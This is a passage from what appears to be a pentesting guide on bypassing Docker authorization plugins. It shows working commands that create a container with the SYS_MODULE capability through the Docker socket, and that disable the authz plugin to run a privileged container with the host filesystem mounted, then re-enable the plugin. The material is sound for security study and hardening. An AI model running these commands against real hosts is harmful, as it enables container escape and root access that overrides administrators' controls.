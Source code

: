 ## Unchecked JSON Attribute

It's possible that when the sysadmin configured the docker firewall he **forgot about some important attribute of a parameter** of the [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) like "**Capabilities**" inside "**HostConfig**". In the following example it's possible to abuse this misconfiguration to create and run a container with the **SYS_MODULE** capability:

```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```

> [!NOTE]
> The **`HostConfig`** is the key that usually contains the **interesting** **privileges** to escape from the container. However, as we have discussed previously, note how using Binds outside of it also works and may allow you to bypass restrictions.

## Disabling Plugin

If the **sysadmin** **forgotten** to **forbid** the ability to **disable** the **plugin**, you can take advantage of this to completely disable it!

```bash
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```

Remember to **re-enable the plugin after escalating**, or a **restart of docker service won’t work**!

## Auth Plugin Bypass writeups

- [https://staaldraad.github.io/post/2019-07-11-bypass-docker-plugin-with-containerd/](https://staaldraad.github.io/post/2019-07-11-bypass-docker-plugin-with-containerd/)

{{#include ../../../banners/hacktricks-training.md}}
